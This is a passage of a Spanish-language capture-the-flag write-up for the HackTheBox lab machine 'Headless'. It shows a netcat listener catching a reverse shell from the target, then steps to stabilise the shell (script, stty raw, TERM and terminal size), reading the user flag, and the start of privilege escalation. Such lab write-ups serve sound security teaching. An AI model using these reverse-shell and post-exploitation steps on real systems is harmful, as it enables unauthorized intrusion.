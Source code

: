 Veo como he conseguido acceder al sistema.

```shell
nc -nlvp 4321                                                                                                                          
listening on [any] 4321 ...
connect to [10.10.16.84] from (UNKNOWN) [10.10.11.8] 56490
bash: cannot set terminal process group (1373): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ pwd
pwd
/home/dvir/app
dvir@headless:~/app$ 
```

## Escalada de privilegios

La consola que obtenido no es interactiva del todo, para representar mejor los comandos ejecuto `script /dev/null -c bash`.

Todavía sigue sin ser interactiva. Para solucionarlo hago ***ctrl+z***, escribo ***"stty raw -echo; fg"***, después escribo ***"reset xterm"*** y doy un ***intro***. Con esto he reiniciado la configuración de la terminal y ahora puede detectar si hago un ctrl+c, cosa que antes no hacía.

Si por ejemplo intentamos hacer un nano o ctrl+l, no vamos a poder. Esto se debe a que la variable de entorno $TERM tiene el valor dump y no xterm. Podemos arreglar esto de la siguiente forma.

```shell
dvir@headless:~/app$ echo $TERM
dumb
dvir@headless:~/app$ export TERM=xterm
```

La proporción de la shell no es correcta comparada con la terminal de mi kali. Miro el tamaño con `stty size`.

```shell
dvir@headless:~/app$ stty size
24 80
```

En la máquina Headless hay 24 filas y 80 columnas, pero en mi kali son 63 filas y 280 columnas. Las modifico para que tengan el mismo espacio.

```shell
dvir@headless:~/app$ stty rows 63 columns 280
```

Veo que en el directorio del usuario dvir está la primera flag.

```shell
dvir@headless:~/app$ cat user.txt 
af*************************8e
dvir@headless:~/app$
```

Comienzo a rootear la máquina. Primero reviso los permisos del usuario actual.

